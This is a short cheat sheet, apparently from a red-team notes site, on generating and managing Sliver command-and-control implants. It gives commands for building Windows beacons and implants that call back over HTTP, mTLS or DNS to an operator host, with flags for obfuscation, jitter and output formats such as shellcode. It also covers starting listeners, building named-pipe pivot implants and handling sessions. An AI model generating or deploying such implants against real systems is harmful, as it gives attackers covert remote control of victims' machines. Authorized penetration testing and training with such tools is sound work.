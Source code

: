 # Sliver payload generation

#### [Generic Beacon / Implant generation](sliver-payload-generation.md#generic-beacon-implant-generation-1)

[Named Pipe Payload Generation](sliver-payload-generation.md#named-pipe-payload-generation)

#### Generic Beacon / Implant generation

To generate payloads do this. Keep in mind you can substitute http for mtls, wireguard (wg), and dns. Keep in mind just removing the `beacon`tag will make this into an implant

```bash
generate beacon --http <lhost> -N http_beacon --os windows
```

Some helpful flags to consider when generating beacons are:

```bash
--http            # Uses http callbacks
--mtls            # Uses mTLS callbacks
--dns             # Uses DNS callbacks 
-e                # Enables ofbuscation tactics
--os              # Specify the operating system
-J 5              # Sets a jitter time of 5 seconds
-S 5              # Sets callback time to 5 seconds
--format          # exe, shared (dll), service, shellcode
```

to start your listener just type&#x20;

```
http
OR
http --lport 8088
```

#### Named Pipe Payload Generation&#x20;

Start your named-pipe listener on a interactive session

```bash
pivots named-pipe --bind hack
```

After that you can generate a pivot implant using this command

```bash
generate --named-pipe <ip>/pipe/hack -N hack_pipe
```

#### Session Management

```
sessions         # Lists active / inactive sessions
sesskions -K     # Removes all sessions available or not
sessions prune   # Removes unavailable sessions
sessions -k -i <session> # Removes specific session
beacons          # lists active/inactive beacons
interactive      # turns a beacon into an interactive session
```

